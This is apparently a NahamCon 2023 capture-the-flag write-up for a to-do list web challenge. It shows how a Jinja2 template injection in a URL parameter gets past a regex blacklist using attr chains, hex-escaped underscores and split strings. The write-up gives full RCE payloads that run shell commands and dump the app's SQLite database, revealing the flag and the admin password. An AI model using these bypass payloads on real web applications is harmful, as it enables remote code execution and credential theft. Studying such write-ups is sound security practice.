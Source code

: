 >Author: @congon4tor#2334  
>  
>Every Capture the Flag competition has to have an obligatory to-do list application, right???
---------------------------------
Firstly, we are greeted with a sign-in page

![Pasted image 20230616165433.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616165433.png)

Typical admin:admin guesses do not work, so after making a new account

![Pasted image 20230616165611.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616165611.png)

I created a new task `asdf`, and this is the result. After exploring the POST parameters done during submission, as well as how things are altered when tasks are moved between active and completed, I did not see any interesting pattern. The most notable piece is that trashing my first task leads to `http://challenge.nahamcon.com:32053/delete?id=2`. However, `id=1` appears inaccessible. 

When I turned my attention to the greentext, I noticed in the url we see this as well:
`http://challenge.nahamcon.com:32053/?success=Task%20created`
Editing the success= component will affect what is being displayed in green. After playing for a bit, I noticed that this is actually vulnerable to SSTI:
`http://challenge.nahamcon.com:32053/?success={{7*7}}`

![Pasted image 20230616154856.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616154856.png)

Doing actions such as `curl -v` did not give any insight on the framework being used, but exploring the SSTI a little further gave me the impression that this is likely Jinja2:
`http://challenge.nahamcon.com:32053/?success={{7*'7'}}``

![Pasted image 20230616155028.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616155028.png)

Knowing this, I tried some simple enumerations before I find the true difficulty of this challenge:
`http://challenge.nahamcon.com:32053/?success={{config}}`

![Pasted image 20230616170342.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616170342.png)

```
HACKER DETECTED!!!!  
The folowing are not allowed: [ {{\s*config\s*}},.*class.*,.*mro.*,.*import.*,.*builtins.*,.*popen.*,.*system.*,.*eval.*,.*exec.*,.*\..*,.*\[.*,.*\].*,.*\_\_.* ]
```

It wasn't obvious to me at first, but the real trouble is that any command containing a dot, or square brackets, is blocked.
After spending a good amount of time looking for ways to bypass the filter, I eventually ran into [this post](https://hackmd.io/@Chivato/HyWsJ31dI). Importantly, the writer manages to create a payload to bypass ".","\_", "[]", and even "|join". 

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

Our blacklist also includes some functions that were used, which I bypassed by breaking between quotes (popen -> po''pen).

```
http://challenge.nahamcon.com:32053/?success={{request|attr(%27application%27)|attr(%27\x5f\x5fglobals\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fbuil%27%27tins\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fimp%27%27ort\x5f\x5f%27)(%27os%27)|attr(%27po%27%27pen%27)(%27id%27)|attr(%27read%27)()}}
```

![Pasted image 20230616171249.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616171249.png)

We have successful code execution!! Now all that remains is to find the flag.

After some enumeration of where the flag might be, I began to think that perhaps there isn't a `flag.txt` file after all. When I check the contents of the cwd:
```bash
drwxr-xr-x    1 root     root          4096 Jun 14 17:54 .
drwxr-xr-x    1 root     root          4096 Jun 14 17:54 ..
drwxr-xr-x    1 uwsgi    uwsgi         4096 Jun 16 20:55 DB
-rw-r--r--    1 root     root           159 Jun 14 17:53 app.ini
-rwxr-xr-x    1 root     root          6693 Jun 14 17:53 app.py
-rw-r--r--    1 root     root           792 Jun 14 17:53 models.py
-rw-r--r--    1 root     root           138 Jun 14 17:53 requirements.txt
drwxr-xr-x    2 root     root          4096 Jun 14 17:53 templates
```
I notice the DB folder, and I recall that my task id's started at 2. Perhaps the flag is in admin's task list, for id number 1?

Looking inside the DB folder:
```
drwxr-xr-x    1 uwsgi    uwsgi         4096 Jun 16 20:55 .
drwxr-xr-x    1 root     root          4096 Jun 14 17:54 ..
-rw-r--r--    1 uwsgi    uwsgi        16384 Jun 16 20:55 db.sqlite
```

Unfortunately, opening a sqlite file is a bit tricky with the RCE that I am currently using. Moreover, dots are still blacklisted. It is fortunate that this folder only has one file, so we can use wildcard * to select `db.sqlite` without using dot. When I try `cat /usr/src/app/DB/*`:

![Pasted image 20230616172048.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616172048.png)

It seems there are issues when trying to output invalid characters, causing the internal server error. As a last attempt, I decided to try `strings`, which should only output legitimate utf-8 friendly characters. However, it is not guaranteed that the flag could remain intact for this.

Request:
```
view-source:http://challenge.nahamcon.com:32053/?success={{request|attr(%27application%27)|attr(%27\x5f\x5fglobals\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fbuil%27%27tins\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fimp%27%27ort\x5f\x5f%27)(%27os%27)|attr(%27po%27%27pen%27)(%27strings%20/usr/src/app/DB/db*%27)|attr(%27read%27)()}}
```

Output:
```bash
tabletasktask
CREATE TABLE task (
	id INTEGER NOT NULL, 
	name VARCHAR(100), 
	completed BOOLEAN, 
	user_id INTEGER, 
	PRIMARY KEY (id), 
	CHECK (completed IN (0, 1)), 
	FOREIGN KEY(user_id) REFERENCES user (id)
tableuseruser
CREATE TABLE user (
	id INTEGER NOT NULL, 
	username VARCHAR(40), 
	password VARCHAR(50), 
	PRIMARY KEY (id), 
	UNIQUE (username)
indexsqlite_autoindex_user_1user
asdfasdf
-adminT2dUL6Z#S9KH%x%i
asdf
	admin
asdf
	flag{7b5b91c60796488148ddf3b227735979}
```

Very foturnately, the flag not only survived but is very readable!
`flag{7b5b91c60796488148ddf3b227735979}`

As a side note, we have the password for `admin` now too, and can log in.
`admin:T2dUL6Z#S9KH%x%i`

![Pasted image 20230616172852.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616172852.png)

